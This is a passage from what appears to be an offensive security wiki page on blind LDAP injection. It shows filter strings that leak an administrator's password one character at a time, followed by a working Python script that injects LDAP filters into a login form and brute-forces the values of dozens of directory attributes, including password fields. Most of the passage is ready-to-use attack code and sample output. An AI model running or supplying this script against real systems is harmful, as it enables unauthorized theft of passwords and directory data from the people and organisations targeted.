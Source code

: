 


## Dump data

You can iterate over the ascii letters, digits and symbols:



```
(&(sn=administrator)(password=*)) : OK
(&(sn=administrator)(password=A*)) : KO
(&(sn=administrator)(password=B*)) : KO
...
(&(sn=administrator)(password=M*)) : OK
(&(sn=administrator)(password=MA*)) : KO
(&(sn=administrator)(password=MB*)) : KO
...
```





## Scripts



### **Discover valid LDAP fields**

LDAP objects **contains by default several attributes** that could be used to **save information**. You can try to **brute-force all of them to extract that info.** You can find a list of [**default LDAP attributes here**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt).


```python

import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
 value = ""
 finish = False
 while not finish:
 for char in alphabet: #In each possition test each possible printable char
 query = f"*)({attribute}={value}{char}*"
 data = {'login':query, 'password':'bla'}
 r = requests.post(url, data=data, proxies=proxy)
 sys.stdout.write(f"\r{attribute}: {value}{char}")
 #sleep(0.5) #Avoid brute-force bans
 if "Cannot login" in r.text:
 value += str(char)
 break

 if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
 finish = True
 print()
```
